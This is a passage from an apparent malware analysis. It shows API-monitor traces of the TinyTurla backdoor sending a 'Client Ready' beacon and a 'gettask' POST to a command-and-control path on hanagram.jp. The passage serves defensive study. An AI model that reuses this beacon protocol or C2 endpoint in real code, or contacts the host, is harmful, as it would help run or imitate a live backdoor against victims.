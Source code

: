 ```html
[PAR] DWORD     dwTotalLength    : 0xbe
[RET] 0x7fff33b8d38b in [tinyturla.dll]

Thread created by monitored process : Now monitoring [pid 0x250][tid 0xb58]

[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpWriteData> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest                 : 0x000000E45F62CE30
[PAR] LPCVOID   lpBuffer                 : 0x000000E45F6567E0
[STR]           -> "---"
[STR]              "Content-Disposition: form-data;name="id""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "ea2ced84"
[STR]              "---"
[STR]              "Content-Disposition: form-data;name="result""
[STR]              "Content-Type: text/plain"
[STR]              ""
[STR]              "Client Ready" <--- Ready for buisiness>
[STR]              "-----"
[PAR] DWORD     dwNumberOfBytesToWrite   : 0xbe
[PAR] LPDWORD   lpdwNumberOfBytesWritten : 0x000000E45FF8F560
[RET] 0x7fff33b8d3f2 in [tinyturla.dll]
```

As mentionned in the report the first beaconing contains the "Client Ready" message to signal the C2 that the is malware is up and ready to receive orders.  

---  

With the following 'gettask' message, the malware is offering the C2 an opportunity to reply with an order :  

```html
[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpConnect> in [WINHTTP.dll] 
[PAR] HINTERNET     hSession       : 0x60669e70
[PAR] LPCWSTR       pswzServerName : 0x000000E460682320
[STR]               -> "hanagram.jp"
[PAR] INTERNET_PORT nServerPort    : 443
[RET] 0x7fff33b8bb16 in [tinyturla.dll]

[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpOpenRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hConnect          : 0x5f6d5190
[PAR] LPCWSTR   pwszVerb          : 0x000000E45FF8F5C8
[STR]           -> "POST"
[PAR] LPCWSTR   pwszObjectName    : 0x000000E46069B0C0
[STR]           -> "/wp/wp-content/themes/hanagram/rss-old.php"
[PAR] LPCWSTR   pwszVersion       : 0x0 (null)
[PAR] LPCWSTR   pwszReferrer      : 0x0 (null)
[PAR] LPCWSTR   *ppwszAcceptTypes : 0x0
[PAR] DWORD     dwFlags           : 0x800100 (WINHTTP_FLAG_SECURE | WINHTTP_FLAG_BYPASS_PROXY_CACHE)
[RET] 0x7fff33b8bc26 in [tinyturla.dll]

[ * ] [pid 0x250][tid 0x990] c:\windows\system32\svchost.exe
[API] <WinHttpSendRequest> in [WINHTTP.dll] 
[PAR] HINTERNET hRequest         : 0x000000E4606849C0
[PAR] LPCWSTR   pwszHeaders      : 0x000000E46069AB10
[STR]           -> "Content-Type: multipart/form-data; boundary="-""
[PAR] DWORD     dwHeadersLength  : 0xffffffff
[PAR] LPVOID    lpOptional       : 0x0 (null)
[PAR] DWORD     dwOptionalLength : 0x0
[PAR] DWORD     dwTotalLength    : 0xaf
```